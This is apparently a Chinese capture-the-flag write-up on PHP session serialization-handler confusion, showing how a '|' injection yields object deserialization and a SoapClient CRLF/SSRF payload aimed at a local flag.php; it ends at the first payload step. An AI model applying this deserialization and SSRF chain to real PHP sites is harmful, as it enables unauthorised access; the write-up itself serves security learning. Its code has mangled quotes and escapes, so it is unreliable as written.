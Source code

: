 这样的方式，可以指定php序列化引擎。由之前的分析可知，php在反序列化存储$_session时使用的处理器和序列化时使用的处理器不同，会导致数据无法正确反序列化，通过特殊的构造，甚至可以伪造任意数据。
假如我们使用`php_serialize`引擎时进行数据存储时的序列化，可以得到内容

```
$_SESSION[‘name’] = ‘sky’;
a:1:{s:4:”name”;s:3:”sky”;}
```

而在php引擎时进行数据存储时的序列化，可以得到另一个内容

```
$_SESSION[‘name’] = ‘sky’;
name|s:3:”sky”
```

那么如果我们用php引擎去解php_serialize得到的序列化,这时就会出现问题了。
***分析***
php引擎会以|作为作为key和value的分隔符，我们再传入内容的时候，比如传入

```
$_SESSION[‘name’] = ‘|sky‘
```

那么使用php_serialize引擎时可以得到序列化内容

```
a:1:{s:4:”name”;s:4:”|sky”;}
```

然后用php引擎反序列化时，|被当做分隔符，于是

```
a:1:{s:4:”name”;s:4:”
```

被当作key

```
sky
```

被当做vaule进行反序列化

于是，我们只要传入

```
$_SESSION[‘name’] = |序列化内容
```
即可。
***触发__call***
我们看到soapclient想要触发__call()必须要调用不可访问的方法，那我们如何在题目有限的代码里调用不可访问方法呢？

看到这段代码

    php $a = array(reset($_SESSION),'welcome_to_the_lctf2018'); call_user_func($b,$a);

这里想到如下操作

我们只要覆盖$b为call_user_func即可成功触发不可访问方法
***payload***
```
<?php
$target='http://127.0.0.1/flag.php';
$b = new SoapClient(null,array('location' => $target,
                               'user_agent' => "AAA:BBBrn" .
                                             "Cookie:PHPSESSID=dde63k4h9t7c9dfl79np27e912",
                               'uri' => "http://127.0.0.1/"));

$se = serialize($b); 
echo urlencode($se);
```
先发送第一段payload
